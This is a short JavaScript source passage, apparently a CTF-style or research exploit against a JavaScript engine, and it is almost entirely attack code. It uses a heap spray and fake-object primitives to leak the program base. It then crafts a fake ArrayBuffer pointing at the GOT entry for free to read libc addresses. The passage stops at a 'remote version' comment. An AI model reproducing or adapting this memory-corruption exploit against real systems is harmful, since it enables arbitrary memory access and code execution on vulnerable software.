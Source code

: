 ```javascript
let find_index = Math.floor(a);
if (find_index >= 0x40000) {
    print("[-] Exploit failed: heapspray needle not found");
    throw "fail";
}

let leak = fakeFloat64(42);
// for some reason, printing this causes exploit to fail
let pie_base = parseInt(f64_to_hex(leak), 16) - 0x00A9AA;
let got_free = parseInt(f64_to_hex(leak), 16) - 0x00A9AA + 0x6BDE0;

// now let's leak libc
var idx = find_index;
//recipe for arraybuffer class
haystack[idx++] = 0x1;
haystack[idx++] = 0x0;  

haystack[idx++] = 0x11;
haystack[idx++] = 0x22;

haystack[idx++] = 0x33;
haystack[idx++] = 0x44;

haystack[idx++] = 0x55;
haystack[idx++] = 0x66;

// specific parts for arraybyffer

// 1. type of class
haystack[idx++] = 0x18;

// 2. ArrayBuffer flags. (2 is detached, 1 is external memory)
haystack[idx++] = 0x1;
haystack[idx++] = 0x00;

// 3. meainingless
haystack[idx++] = 0x00;

// 4. length
haystack[idx++] = 0xf0;
haystack[idx++] = 0xff;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;

// external buffer
let old_idx = idx;
haystack[idx++] = shift(got_free, 0) & 0xFF;
haystack[idx++] = shift(got_free, 8) & 0xFF;
haystack[idx++] = shift(got_free, 16) & 0xFF;
haystack[idx++] = shift(got_free, 24) & 0xFF;
haystack[idx++] = shift(got_free, 32) & 0xFF;
haystack[idx++] = shift(got_free, 40) & 0xFF;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;

print("[*] PIE: " + pie_base.toString(16));
var fo = fakeObj(0x5000);
var arw = new Float64Array(fo);
let libc_free = parseInt(f64_to_hex(arw[0]), 16);
// values here are libc dependent


// remote version
```